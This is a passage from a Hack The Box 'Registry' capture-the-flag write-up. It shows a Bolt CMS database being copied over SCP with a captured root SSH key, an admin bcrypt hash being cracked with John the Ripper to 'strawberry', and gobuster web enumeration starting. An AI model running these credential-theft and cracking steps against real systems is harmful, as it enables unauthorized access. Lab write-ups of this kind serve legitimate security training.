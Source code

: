 bolt@bolt:/var/www/html/bolt$ ls -ltr app/database/
total 288
-rw-r--r-- 1 www-data www-data 294912 Oct 21 10:41 bolt.db
```

The first lines gives us the version of Bolt so we can look at some exploits if needed, but we need to also move *bolt.db* locally to use SQLite Browser and find out what is in there.

Retrieve bolt.db using SCP.

```
kali@back0ff:~/Documents/HTB-Labs/Registry$ scp -i /home/kali/Documents/HTB-Labs/Registry/2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791/root/.ssh/id_rsa bolt@registry.htb:/var/www/html/bolt/app/database/bolt.db
```

Once you retrieve it, open it locally SQLite Browser, try and see what items of interest like the users table could be found and if any create a new file containing the credentials found: sqlite_hash.lst.

![Registry_SQLite](/images/Registry_SQLite.png)

![Registry_SQLite_users](/images/Registry_SQLite_users.png)

See below the content of the file where I copied this hash along with this user:

```
kali@back0ff:~/Documents/HTB-Labs/Registry$ cat sqlite_hash.lst 
admin:$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK
```

At this point, we should try and crack these credentials using *JohnTheRipper*:

### JOHNTHERIPPER

```
kali@back0ff:~/Documents/HTB-Labs/Registry$ john --wordlist=/usr/share/wordlists/rockyou.txt sqlite_hash.lst > sqlite_creds.txt 
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1g 0:00:00:03 DONE (2020-03-24 22:13) 0.2688g/s 96.77p/s 96.77c/s 96.77C/s strawberry..brianna
Use the "--show" option to display all of the cracked passwords reliably
Session completed
kali@back0ff:~/Documents/HTB-Labs/Registry$ cat sqlite_creds.txt 
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
strawberry       (admin)
```

WOOT WOOT! We have now credentials to access Bolt CMS. The credentials are **admin:strawberry**.

Let's try and enumerate web directories and php files so we can't find out how to access BOLT CMS from this box.

```
kali@back0ff:~/Documents/HTB-Labs/Registry$ gobuster dir -u http://registry.htb/bolt/ -w /usr/share/wordlists/dirb/big.txt -k -t 50 --timeout 20s -x php --wildcard
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://registry.htb/bolt/
[+] Threads:        50